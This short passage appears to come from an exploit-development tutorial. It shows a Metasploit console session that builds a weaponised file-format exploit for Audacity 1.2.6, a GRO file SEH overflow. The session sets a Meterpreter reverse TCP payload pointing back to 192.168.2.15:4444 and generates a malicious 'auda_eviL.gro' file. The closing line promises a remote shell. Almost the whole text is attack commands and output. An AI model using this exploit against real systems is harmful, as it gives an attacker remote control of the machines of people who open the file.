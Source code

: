 We generate our final weaponised exploit:

```shell
 msf > search audacity
 [*] Searching loaded modules for pattern 'audacity'...
 
 Exploits
 ========
 
 Name                         Description
 ----                         -----------
 windows/fileformat/audacity  Audacity 1.2.6 (GRO File) SEH Overflow.
 
 msf > use windows/fileformat/audacity
 msf exploit(audacity) > set PAYLOAD windows/meterpreter/reverse_tcp
 PAYLOAD => windows/meterpreter/reverse_tcp
 msf exploit(audacity) > show options
 
 Module options:
 
 Name        Current Setting                             Required  Description
 ----        ---------------                             --------  -----------
 FILENAME    auda_eviL.gro                               yes       The file name.
 OUTPUTPATH  /usr/share/metasploit-framework/data/exploits  yes       The location of the file.
 
 
 Payload options (windows/meterpreter/reverse_tcp):
 
 Name      Current Setting  Required  Description
 ----      ---------------  --------  -----------
 EXITFUNC  thread           yes       Exit technique: seh, thread, process
 LHOST     192.168.2.15     yes       The local address
 LPORT     4444             yes       The local port
 
 
 Exploit target:
 
 Id  Name
 --  ----
 0   Audacity Universal 1.2
 
 
 msf exploit(audacity) > exploit
 
 [*] Handler binding to LHOST 0.0.0.0
 [*] Started reverse handler
 [*] Creating 'auda_eviL.gro' file ...
 [*] Generated output file //usr/share/metasploit-framework/data/exploits/auda_eviL.gro
 [*] Exploit completed, but no session was created.
 ```

 And get a meterpreter shell!
